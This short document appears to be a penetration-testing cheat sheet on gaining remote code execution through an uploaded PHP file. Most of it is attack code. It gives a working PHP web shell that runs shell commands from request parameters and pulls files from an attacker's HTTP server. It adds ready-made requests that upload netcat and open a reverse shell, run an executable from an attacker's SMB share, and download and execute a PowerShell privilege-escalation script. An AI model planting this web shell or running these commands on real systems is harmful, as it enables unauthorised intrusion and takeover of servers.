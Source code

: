 ## PHP Remote Code Execute & File Upload

If we can modify or upload a php file in the webserver we can upload files or execute code with the following code:

```php
<?php
if (isset($_REQUEST['fupload'])) {
  file_put_contents($_REQUEST['fupload'], file_get_contents("http://$PYTHONSRV:8000/" . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
  echo "<pre>" . shell_exec($_REQUEST['fexec']) . "<pre>";
};
?>
```

Then, use get requests execute code:

```bash
.php?fexec=ls
.php?fexec=dir
#Serve the following file in a python HTTP server:
.php?fupload=nc64.exe
#Upload file and execute it:
.php?fupload=nc64.exe&fexec=nc64.exe -e cmd $IPADDRESS
#Execute files through Impacket SMB Server (Windows only):
.php?fexec=\\$KALIIP\$SHARE\$FILE.exe
```

Or execute powershell scripts:

```bash
.php?fexec=echo IEX(New-Object Net.WebClient).DownloadString('http://PYTHONSRV/PowerUp.ps1') | powershell -noprofile -
#Last "-" is to pull from stdin
```

